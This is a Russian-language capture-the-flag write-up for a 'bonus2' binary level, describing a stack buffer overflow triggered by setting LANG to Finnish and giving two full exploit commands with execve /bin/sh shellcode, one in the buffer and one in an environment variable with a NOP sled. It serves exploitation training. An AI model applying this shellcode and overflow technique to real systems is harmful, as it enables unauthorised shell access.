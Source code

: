 ## bonus2
B этом уровне мы можем заметить наличие двух функций `main()` и `greetuser()`. кроме того, в глаза бросается использование переменной окружения. Вызова оболочки в коде нет, поэтому необходимо прописывать shellcode. 

![](../../docs/img/bonus2_1.png)

### Первый способ:

Записать shellcode в буфер функции `main()` и записать адрес буфера в регистр `eip`. Достаточное переполнение буфера невозможно при приветствии по-английски (5 символов). Поэтому надо сменить значение переменной окружения `LANG` на `fi` или `nl`. Рассмотрим вариант с финским приветствием - тут оффсет нужного регистра - 18. Адрес буфера - `0xbffff6d0`.

Итоговая команда:

```sh
$ LANG=fi ./bonus2 $(python -c 'print "a"*19 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"') $(python -c 'print "a"*18 + "\xd0\xf6\xff\xbf"')
```

### Второй способ:

Записать shellcode не в буфер, а в переменную окружения, так как это делает взаимодействие с памятью более стабильным. Для этого понадобится так же найти адрес переменной окружения. 

Итог:

```sh
$ export EXPLOIT=$(python -c 'print "\x90" * 1024 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')

$ ./bonus2 $(python -c 'print "a" * 40') $(python -c 'print "a"*18 + "\x10\xf5\xff\xbf"')
```
